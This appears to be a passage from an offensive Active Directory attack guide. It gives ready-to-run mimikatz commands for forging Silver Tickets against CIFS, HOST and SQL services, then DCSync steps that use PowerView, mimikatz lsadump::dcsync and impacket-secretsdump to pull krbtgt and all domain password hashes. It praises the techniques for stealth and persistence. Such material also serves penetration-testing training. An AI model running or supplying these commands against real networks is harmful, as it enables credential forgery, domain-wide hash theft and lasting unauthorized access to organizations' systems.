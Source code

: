```bash
sqlcmd -S sql01.domain.local -E              # Windows authentication

# Example: File share access
dir \\sql01.domain.local\c$

# Example: PowerShell remoting
Enter-PSSession -ComputerName sql01.domain.local

# Advanced Silver Ticket techniques
# Multiple service tickets for same host
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:sql01.domain.local /rc4:hash /service:CIFS /ptt"
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:sql01.domain.local /rc4:hash /service:HOST /ptt"

# Custom user impersonation
# Silver tickets can impersonate any user for the specific service
mimikatz "kerberos::golden /user:normaluser /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:sql01.domain.local /rc4:hash /service:MSSQLSvc /ptt"

# Why Silver Tickets are effective:
# - More targeted and stealthy than Golden Tickets
# - Don't require domain admin privileges to create
# - Harder to detect (service-specific)
# - Provide persistent access to critical services
# - Can be used for lateral movement
```

## DCSync and Advanced Persistence

### **DCSync Attack**

**What DCSync is:** Advanced attack technique that impersonates a domain controller to request password hashes from other domain controllers using legitimate replication protocols.

**Why DCSync is powerful:** Uses legitimate AD replication, difficult to detect, extracts all domain password hashes, and doesn't require interactive logon to domain controllers.

**DCSync requirements:** User account with GetChanges and GetChangesAll rights on domain object (typically Domain Admins, Enterprise Admins, or custom delegated accounts).

```bash
# DCSync attack execution

# Step 1: Verify DCSync privileges
# Check if current user has required permissions
# Using PowerView
Import-Module .\PowerView.ps1
Get-ObjectAcl -DistinguishedName "DC=domain,DC=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

# Step 2: Execute DCSync
# Using mimikatz
mimikatz "lsadump::dcsync /domain:domain.local /user:Administrator"
mimikatz "lsadump::dcsync /domain:domain.local /user:krbtgt"
mimikatz "lsadump::dcsync /domain:domain.local /all"  # All users (noisy)

# Using impacket-secretsdump (from Linux)
impacket-secretsdump domain.local/admin:password@dc01.domain.local -just-dc
impacket-secretsdump domain.local/admin:password@dc01.domain.local -just-dc-user Administrator

# Step 3: Extract specific high-value accounts
# KRBTGT account (for Golden Tickets)
mimikatz "lsadump::dcsync /domain:domain.local /user:krbtgt"
```